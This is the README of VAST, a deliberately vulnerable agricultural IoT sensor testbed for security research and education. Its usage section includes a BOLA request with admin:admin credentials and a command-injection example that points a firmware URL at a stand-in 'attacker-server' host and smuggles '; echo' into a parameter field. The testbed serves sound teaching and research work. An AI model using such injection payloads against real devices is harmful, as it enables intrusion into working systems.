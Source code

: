 # VAST - Vulnerable Agricultural Sensor Testbed

## About VAST

VAST (Vulnerable Agricultural Sensor Testbed) is a containerized, vulnerable-by-design IoT framework specifically created for agricultural cybersecurity research, education, and testing. This platform simulates real-world agricultural IoT deployments while incorporating deliberate security vulnerabilities and sensor health anomalies.

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![Docker](https://img.shields.io/badge/Docker-Ready-blue.svg)](https://www.docker.com/)

## Features

- **Multi-layered Architecture**: Simulates complete agricultural IoT stack from sensors to gateway to client
- **Deliberate Vulnerabilities**: Implements BOLA, command injection, DDoS capability, and resource exhaustion vulnerabilities
- **Sensor Health Simulation**: Models four fault types (stuck readings, drift, spikes, and dropouts)
- **Containerized Deployment**: Complete Docker-based implementation for reproducibility across environments
- **Advanced Monitoring**: Integrated Prometheus and Grafana dashboards for security and health visualization
- **Dataset Generation**: Tools for creating LLM-ready security datasets from framework interactions
- **Agricultural Context**: Realistic temperature patterns reflecting diurnal cycles and crop-specific ranges

## Getting Started

### Prerequisites

- Docker and Docker Compose
- 4GB RAM minimum (8GB recommended)
- Basic knowledge of IoT and cybersecurity concepts

### Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/EmilPasca/vast.git
   cd vast
   ```

2. Build and start the containers:
   ```bash
   docker-compose -f main.docker-compose.yaml up -d
   ```

3. Start the observability stack:
   ```bash
   docker-compose -f observability/docker-compose.yaml up -d
   ```


## Usage Examples

### Basic Temperature Monitoring

Access the simulated sensor data through the gateway API:

```bash
curl http://localhost:48080/data/TEMP001
```

### Vulnerability Testing

#### BOLA Vulnerability Example

```bash
curl -u admin:admin http://localhost:48080/users/premium_user/sensors
```

#### Command Injection Example

```bash
curl -X POST -u admin:admin -H "Content-Type: application/json" \
     -d '{"firmware_url":"http://attacker-server:63999/dummy.sh", "version":"1.2.3", "params":"; echo TEST > /tmp/test.txt"}' \
     http://localhost:12381/firmware/update
```

#### Sensor Fault Simulation

```bash
./docs/FaultSimulation/simulate-faults.sh --sensor localhost --port 12381 --fault drift --duration 120
```

### Dataset Generation

Generate datasets for machine learning and LLM-based analysis:

```bash
cd dataset-tools
python generate_resource_exhaustion_dataset.py --sensor temperature-sensor-01 --baseline 180 --duration 300
```

## Architecture

VAST implements a multi-layered architecture mimicking real-world agricultural IoT deployments:

```
┌─────────────────┐     ┌──────────────┐     ┌───────────────┐     ┌──────────────┐
│   Data Server   │◄────│  Sensors     │────►│  MQTT Broker  │◄────│  IoT Gateway │
└─────────────────┘     └──────────────┘     └───────────────┘     └──────────────┘
                                                                          ▲
┌─────────────────┐     ┌──────────────┐                                  │
│   Prometheus    │◄────│  Grafana     │◄─────────────────────────────────┘
└─────────────────┘     └──────────────┘
```

## Documentation

Comprehensive documentation is available throughout the repository:

- **Installation**: See the [Getting Started](#getting-started) section above for installation instructions
- [Architecture Overview](supplementary-materials/README.md#relationship-to-main-paper)
- **Vulnerabilities**:
  - [BOLA Vulnerability](supplementary-materials/vulnerability-details/bola-vulnerability.md)
  - [Command Injection Vulnerability](supplementary-materials/vulnerability-details/command-injection-vulnerability.md)
  - [DDoS Vulnerability](supplementary-materials/vulnerability-details/ddos-vulnerability.md)
  - [Resource Exhaustion Vulnerability](supplementary-materials/vulnerability-details/resource-exhaustion-vulnerability.md)
- [Dataset Generation](supplementary-materials/sensor-faults-simulation.md)


## Technical Methodology

Details on our technical implementation and analytical methods:

- [Sensor Fault Simulation](supplementary-materials/sensor-faults-simulation.md)
- [Detectability Score Calculation](supplementary-materials/detectability-calculation.md)
- [Fault Masking Methodology](supplementary-materials/fault-masking-methodology.md)
- [Wireshark Analysis of Attacks](supplementary-materials/analysis/wireshark-analysis.md)

## Contributing

We welcome contributions to VAST! Please see our [Contributing Guidelines](CONTRIBUTING.md) for details on how to submit pull requests, report issues, or request features.

## Disclaimer

VAST contains deliberately vulnerable components designed for educational purposes. Using these vulnerabilities outside of controlled educational or research environments may be illegal. The authors are not responsible for misuse of this framework.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Citation

If you use VAST in your research, please cite our paper:

```
Pasca, E.M.; Delinschi, D.; Erdei, R.; Baraian, I.; Matei, O. A Vulnerable-by-Design IoT Sensor Framework for Cybersecurity in Smart Agriculture. Agriculture 2025, X, X. https://doi.org/10.3390/xxxxx
```

## Ethical Considerations and Security Disclosure

**Important Notice**: This repository contains deliberately vulnerable code, attack implementations, and exploitation techniques designed for **educational and research purposes only**.

- **Potential for Harm**: The vulnerabilities demonstrated in this framework (BOLA, command injection, DDoS, resource exhaustion) can cause significant damage if deployed against production systems. Never deploy this code in production environments or use these techniques against systems without explicit permission.

- **Controlled Environment Use**: All testing, experimentation, and educational activities should be conducted in isolated environments completely disconnected from production networks or the internet.

- **Legal Implications**: Using these attack techniques against systems without proper authorization may violate computer crime laws in many jurisdictions, including but not limited to the Computer Fraud and Abuse Act (US), the Computer Misuse Act (UK), and similar legislation worldwide.

- **Responsible Disclosure**: Some implementation details have been modified or abstracted to prevent direct weaponization while maintaining educational value. However, the core concepts remain valid for understanding security vulnerabilities.

- **Academic and Educational Context**: This framework was developed to address the significant gap in agricultural IoT security education and research. Its purpose is to improve security awareness and defensive capabilities in this critical infrastructure sector.

By using this repository, you acknowledge these considerations and agree to use the knowledge and tools responsibly. The authors and contributors assume no liability for misuse of this software or the techniques it demonstrates.

## Acknowledgments

This work was supported by a grant of the Romanian National Authority for Scientific Research and Innovation, CCCDI - UEFISCDI, project number ERANET-CHISTERA-IV-TROCI 4/2024, within PNCDI IV.

This work is also supported by the project „Collaborative Framework for Smart Agriculture” – COSA that received funding from Romania’s National Recovery and Resilience Plan PNRR-III-C9-2022-I8, under grant agreement 760070.

This research has been supported by the CLOUDUT Project, cofunded by the European Fund of Regional Development through the Competitiveness Operational Programme 2014-2020, contract no. 235/2020.
